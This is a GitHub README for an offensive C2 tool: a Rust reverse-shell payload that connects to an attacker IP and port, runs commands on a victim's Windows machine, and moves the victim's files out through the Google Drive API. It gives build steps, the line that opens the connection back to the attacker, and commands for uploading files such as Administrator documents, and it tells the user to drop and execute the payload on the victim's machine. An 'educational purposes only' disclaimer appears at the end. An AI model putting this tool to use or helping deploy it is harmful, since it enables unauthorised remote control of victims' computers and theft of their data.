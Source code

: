 # Google Drive Command and Control (C2) System

This project provides a Command and Control (C2) system using the Google Drive API and a reverse shell payload written in Rust. The system allows uploading and downloading files to/from Google Drive from a victim's machine and executing commands on the target machine via a C2 server.

# Features
- Reverse shell payload written in Rust
- Upload and download files from the victim's machine to Google Drive
- Command execution on the victim's machine through a TCP connection
- Works with a Google Service Account for authentication
# Prerequisites
Google Service Account: You need to create a Google Cloud project, enable the Google Drive API, and download the Service Account credentials (JSON).
Rust Toolchain: Ensure you have Rust installed. If not, install it from Rust's official site.
How to Use
1. Setup
Add the Google Service Account JSON file to the src/ directory of the Rust project (used in main.rs).
Update main.rs with your Google Drive folder ID.
2. Compiling the Rust Payload
Before compiling, on src/main.rs in payload folder, change this:
- folder ID on ``` const FOLDER_ID: &str = "INPUT YOUR GGDRIVE ID"; ```
- drop your json file in /src and put your json name in ```let service_account_json = include_str!("yourjsonfilename.json");```
- your attacker's machine ip + port number at ```let mut stream = TcpStream::connect("192.168.247.131:4444").expect("Failed to connect");```
To compile the Rust payload, follow these steps:
```
# Build for a Windows target
cargo build --target x86_64-pc-windows-gnu --release
```
This will generate an .exe file in the target/x86_64-pc-windows-gnu/release folder.

3. Running the C2 Server
On your attacker machine (C2 server), you will run the following Python script to listen for incoming connections and send commands:
```
python3 c2-server.py
```
4. Reverse Shell on Victim's Machine
After compiling, transfer the compiled .exe payload to the victim's machine and execute it.

5. Available Commands
- Execute commands: Any system command can be executed as follows:
```
<command>
```
For example:
```
dir
```
- Upload a file to Google Drive:
```
upload;<file_path>
```
For example:
```
upload;C:\Users\Administrator\Documents\example.txt
```
Download a file from Google Drive:
```
download;<file_id>;<local_file_path>
```
For example:
```
download;1vjkwFQJXMpVps5Zd2yD54syoXMEw98Fb;C:\Users\Administrator\Downloads\test.png
```
6. Example C2 Usage
Start the C2 server: Run the c2-server.py script on your attacker machine.
Run the payload: Drop and execute the compiled payload on the victim's machine.
Command execution: After the reverse shell is established, issue commands such as file upload, download, or OS command execution.
Dependencies
The Rust project uses the following dependencies:
- yup-oauth2
- reqwest
- tokio
- serde
- serde_json
- mime

Make sure to install these by running:
```
cargo build
```
# License
This project is licensed under the Apache License 2.0. See the [LICENSE](https://github.com/apache/.github/blob/main/LICENSE) for details.

# Disclaimer
This project is intended for educational purposes only. The author is not responsible for any misuse of this software. Use this project only on machines you have explicit permission to test.
